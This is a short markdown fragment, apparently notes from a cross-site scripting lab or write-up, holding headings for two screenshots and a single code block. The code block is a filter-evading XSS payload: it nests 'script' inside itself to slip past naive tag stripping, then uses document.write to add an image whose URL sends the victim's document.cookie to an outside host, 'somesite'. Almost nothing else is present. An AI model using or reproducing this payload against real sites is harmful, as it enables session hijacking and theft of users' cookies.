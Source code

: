 ## Screenshot-1

```
<scriscriptpt>document.write('<img src="http://somesite/?c='+document.cookie+'" />')</scriscriptpt>
```

## Screenshot-2

